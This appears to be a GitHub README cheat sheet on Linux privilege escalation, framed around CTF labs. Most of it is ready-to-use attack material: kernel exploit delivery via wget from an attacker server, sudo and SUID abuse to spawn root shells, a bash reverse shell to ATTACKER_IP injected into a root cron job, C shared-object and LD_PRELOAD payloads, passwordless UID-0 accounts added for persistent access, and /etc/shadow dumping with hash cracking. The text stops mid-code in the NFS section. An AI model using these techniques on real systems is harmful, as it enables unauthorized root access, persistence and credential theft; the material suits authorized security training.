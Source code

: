 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
 Kernel Exploits
 ----------------------
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    cat /proc/version
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.

To extract all the vulnerable kernel versions from that web you can do:

    curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Tools that could help searching for kernel exploits are:

[suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>

<details>
<summary>SUDO</summary>
 <br> 

Sudo Privileges
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line. could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.

Sudo version
Based on the vulnerable sudo versions that appear in:

    searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

    sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

---
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
---
Summary:

sudo Privileges: If a user has sudo access to certain commands (like find, nano, or less), they might be able to escalate their privileges.

Exploit via sudo: Using sudo find . -exec /bin/sh \; or exploiting misconfigurations with common binaries, an attacker could gain root access.

Overwriting Critical Files: Be cautious when overwriting system files like /etc/passwd — it’s risky but useful for CTFs.

Finding the Flag: Once you have root access, locate the flag and/or crack password hashes from /etc/shadow.
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Cron jobs
----------------------
Cron jobs are scheduled tasks that run scripts or binaries at specified times. By default, they execute with the privileges of their owner, not the user who triggers them. If a cron job is owned by root but writable by an unprivileged user, that user can inject code to run as root.

1. Understand Where Cron Jobs Live
System-wide crontab:
/etc/crontab — defines global scheduled tasks.

Per-user crontabs:
/var/spool/cron/crontabs/<username> — only editable by the respective user.

Cron directories (/etc/cron.hourly, /etc/cron.daily, etc.)

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root backup.sh
   ![image](https://github.com/user-attachments/assets/d30b6e0d-abcc-46ad-9898-cdc241acff03)


In the example above, /home/karen is in the PATH and our user can write to it.

Confirm What’s Running and When
You can observe cron in action using a tool like pspy on the target:

Transfer and run pspy to monitor cron executions
[PSPY](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

    ./pspy64
You’ll see lines like:

[CRON] running /usr/local/bin/backup.sh

Inject Your Payload:

Create a /home/karen/backup.sh script which makes a SUID/SGID bit version of bash:
Since you have write access, append a reverse-shell or any root-shell payload:

Edit the script:

    nano /usr/local/bin/backup.sh
Append, for example, a simple bash reverse shell:

    # …existing backup commands…
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
Save and exit.
Check and make the script executable:

    $ chmod +x /home/karen/backup.sh

Now wait for the cron job to execute. When it does,Start a listener on your attacker machine:


    $ nc -lvnp 4444
    #
Wait up to one minute for cron to run the modified script.

You’ll receive a root shell connection.

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #
</details>

<details>
<summary>File Permissions</summary>
 <br> 

Writable /etc/passwd Privilege Escalation

The /etc/passwd file on Unix-like systems contains essential information about user accounts, including the username, UID, GID, home directory, and default shell. If this file is writable by an unprivileged user, it presents a significant security vulnerability.

1. The passwd File Format
Each line in /etc/passwd represents a user account in the following format:

       username:password:UID:GID:GECOS:home_dir:shell

Exploiting a Writable /etc/passwd
If an attacker can modify /etc/passwd and add an entry for a new user with UID 0 (the root user ID), they can gain root access without needing a password.

Steps to Add a New Root User
Check if /etc/passwd is writable: Verify if you have write access to /etc/passwd:

    ls -l /etc/passwd
If you have write permissions, proceed.

Add a new root user: Use echo to append a new user to /etc/passwd with UID 0 (root user). This will make the new user a root user with no password.

    echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd
Explanation:

newroot is the username of the new account.

:: indicates no password.

0:0 are the UID and GID for root.

/root is the home directory (root's home).

/bin/bash is the default shell for this new user.

Switch to the new root user: Use su (switch user) to change to the newroot account:

    su newroot
You now have root privileges: After switching, you will have a root shell:

    # whoami
      root
Important Notes
No Password Needed: Since the new account has no password, the system won't prompt for one, and you can immediately log in as the new root user.

Permanent Access: The new root user will persist across reboots until /etc/passwd is modified again. This makes this method highly effective for establishing persistent root access.

</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection
 ----------------------
Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    or
    find / -type f -perm -04000 -ls 2>/dev/null
    or
    find / -perm -u=s -type f 2>/dev/null
    
These commands search the system for files with the SUID (04000) or SGID (02000) bits set and list them. Files with these special permission bits could potentially allow privilege escalation.

 ![image](https://github.com/user-attachments/assets/8886aea9-5c2f-47cf-adb5-361f174fde67)

A good practice would be to compare executables on this list with GTFOBins. Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a [pre-filtered list](https://gtfobins.github.io/#+suid).

Base64 configured with the SUID bit, can be leveraged for privilege escalation.
Decoding Base64-Encoded Files
You can sometimes encounter base64-encoded files like /etc/shadow or /etc/passwd, which contain encrypted or sensitive data. To decode these files, use the following commands:

Example for /etc/shadow:

    LFILE=/etc/shadow
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/shadow.
![image](https://github.com/user-attachments/assets/a520482d-fa30-4ac5-876e-17b2c3c13bc7)

Example for /etc/passwd:

    LFILE=/etc/passwd
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/passwd.

Cracking Password Hashes
After you have decoded sensitive files like /etc/shadow or /etc/passwd, you can extract password hashes and attempt to crack them.

Cracking /etc/shadow and /etc/passwd
Decode both files and copy them to your system. Then, run the following commands to prepare for password cracking:

    unshadow user2pass user2 > passwd.txt  # user2pass = /etc/passwd, user2 = /etc/shadow

Use John the Ripper to crack the password hashes with a wordlist:

    sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
This will attempt to crack the password hashes using the rockyou.txt wordlist.
![image](https://github.com/user-attachments/assets/fcef5969-8533-4831-818a-946f88f12ed3)

Directly flag can be achived using base64 ablites: 
Example for a specific file (e.g., flag3.txt):

      LFILE=home/ubuntu/flag3.txt
      base64 "$LFILE" | base64 --decode
This command decodes the contents of flag3.txt.
![image](https://github.com/user-attachments/assets/cc23f201-dde6-4043-9ac5-9580c5648988)

Use strace to find references to shared objects:

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'
</details>
<details>
<summary>Capabilities</summary>
 <br> 
What Are Capabilities?
----------------------
In Unix-like systems, capabilities are used to provide more granular control over the privileges of processes or binaries, rather than granting full root access. This method allows administrators to assign specific privileges to processes that would typically require higher-level permissions.

For example:

A SOC analyst might need to run a tool that initiates socket connections, but they don't require full root access. By using capabilities, the administrator can grant just the necessary permission to that specific tool, rather than giving the analyst root privileges.

How Capabilities Work
Instead of giving a program full root privileges, a system administrator can set specific capabilities on a binary to allow it to perform certain actions that would otherwise require elevated privileges. For instance, a binary might be given the capability to bind to privileged ports or set user IDs without granting the user full root access.

You can check which capabilities are assigned to a binary or process using the getcap tool.

Checking Capabilities on a System
To list all the binaries with specific capabilities set on your system, use the following command:

getcap -r / 2>/dev/null
This command recursively checks all files starting from the root directory and lists those with capabilities set. The output might look something like this:

/usr/bin/vim = cap_setuid+ep
This means that the vim binary has the cap_setuid capability, which allows it to change its user ID (UID) to any value, including root (UID 0).

Example of Exploiting Capabilities for Privilege Escalation
Let's say the vim binary has been granted the cap_setuid capability. This capability allows vim to change the user ID of the current process. If we can use this capability to set the user ID to 0 (root), we can effectively escalate our privileges.

Check the Capabilities: We use the getcap tool to see that vim has the cap_setuid capability set.

getcap /usr/bin/vim
Output might be:

/usr/bin/vim = cap_setuid+ep
Escalate to Root Using vim: With the cap_setuid capability, we can craft a command that uses vim to escalate to root. The following command utilizes Python scripting inside vim to change the user ID to 0 (root) and then spawn a root shell:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Breakdown of the Command:
:py3 import os: This imports the Python os module within vim.

os.setuid(0): This changes the user ID of the current process to 0, which is the root user.

os.execl("/bin/sh", "sh", "-c", "reset; exec sh"): This replaces the current process (which is vim) with a new shell (/bin/sh), and it spawns a root shell.

Result:
This command will execute the Python code inside vim, which changes the user ID to 0 (root) and opens a shell with root privileges. The result is a root shell.

After executing this, running whoami will show:

# whoami
root
You now have root access without needing to log in as the root user.

Conclusion
Capabilities offer a more granular control over process privileges by allowing specific permissions, such as changing user IDs or binding to privileged ports, to be granted to a binary.

If a binary like vim is configured with the cap_setuid capability, it can change its UID to root and escalate privileges.

Always ensure to audit and manage capabilities carefully to avoid inadvertent privilege escalation opportunities.

This method highlights the importance of reviewing and controlling which capabilities are granted to binaries on your system.
</details>
<details>
<summary>PATH Hijacking</summary>
 <br> 
 What is the PATH Environment Variable?
 ----------------------
In Linux, PATH is an environmental variable that tells the operating system where to look for executable files. When you run a command in the shell (such as ls, cat, or any custom script), Linux searches for that command in the directories listed in the PATH variable.

For example:

If a command is not built into the shell or if its absolute path is not specified, Linux will start searching for it in the directories defined under the PATH variable.

The PATH variable typically contains directories like /usr/bin, /bin, /usr/local/bin, etc., where most of the system binaries are stored.

How to Check the PATH?
You can check the current directories in your PATH by running:

echo $PATH
This will show a colon-separated list of directories, like this:

/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/games:/usr/games:/snap/bin
Exploiting Writable Folders in PATH
If a folder listed in PATH has write permissions for your user, you could potentially hijack an application by placing a malicious script or executable in that folder. This could trick the system into running your script instead of the legitimate binary when the application is called.

Writable Folders Search: To identify writable directories in the PATH, you can use the following command:

find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
This will search for writable folders under the /usr directory and display the results. Some of these directories may be part of the PATH and could be hijacked.

Example output might look like this:

/usr/local
/usr/bin
Hijacking a Command: If a writable folder is found in PATH, you can replace a system command with a malicious script. For example, you could create a script named thm in a writable directory like /tmp and hijack the thm command.

Example of Hijacking Using Writable Folders in PATH
Let’s consider the following example:

Check the Current PATH: We can check if /tmp is in the PATH by running:

echo $PATH
If /tmp is not in the PATH, we can add it. This is done using the following command:

export PATH=/tmp:$PATH
This command prepends /tmp to the beginning of the PATH, making it the first directory that the system will search for executables.

Creating a Malicious Script: Next, we can create a malicious executable in /tmp. In this case, we can copy the /bin/bash binary to /tmp and rename it to thm:

cp /bin/bash /tmp/thm
chmod +x /tmp/thm
Hijacking the Application: Now, if the system tries to run the thm command, it will search in /tmp first (because we added it to the PATH). Since we have placed our malicious thm script in /tmp, the system will execute our script instead of the legitimate one.

When the user runs the thm command, the system will execute the bash shell from /tmp, giving the attacker a shell with the same privileges as the user who ran the command.
</details>
<details>
<summary>Startup Scripts</summary>
 <br> 

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #
</details>
<details>
<summary>Configuration Files</summary>
 <br> 

Configuration files are usually stored in /etc.
----------------------
Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).
</details>
</details>
<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:


    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:


    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:


    int main() {
        setresuid(0,0,0);
